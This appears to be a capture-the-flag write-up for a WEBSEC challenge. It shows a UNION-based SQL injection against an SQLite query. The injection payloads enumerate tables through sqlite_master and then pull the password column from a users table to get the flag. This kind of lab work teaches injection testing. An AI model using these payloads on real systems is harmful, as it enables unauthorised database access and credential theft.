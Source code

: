 ### Error based sql injection in sqlite3

first thing i learn is always u don't need to give ' or 1=1  u have to close it only if it is query is  like

``` sql = 'SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"' ```

our quey looks like this   ``` $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; ```


* Finding database tables: ( database() )

      1  union+select 1,name from sqlite_master -- '
 
* Finding   tables and columns names (table_name and col.. from information schema )

      1  union+select 1,sql from sqlite_master -- '
 
 and i found a column called password , let's find if any intresting there 
 
      1 AND 1=0 UNION ALL SELECT  1, password from users where id=1  -- '
 
 and we get the flag 
 
 #### WEBSEC{Simple_SQLite_Injection} 
